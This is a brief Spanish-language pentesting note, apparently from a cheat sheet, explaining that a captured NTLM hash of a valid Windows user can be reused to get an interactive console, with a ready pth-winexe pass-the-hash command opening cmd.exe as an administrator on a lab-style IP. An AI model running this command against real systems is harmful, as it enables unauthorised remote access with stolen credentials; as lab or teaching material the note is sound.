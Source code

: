 Una vez obtenido un hash de un usuario válido en un sistema Windows, podemos hacer uso de este hash para obtener una consola interactiva.
`pth-winexe -U WORKGROUP/Administrators%<hash_NTLM> //10.10.10.18 cmd.exe`
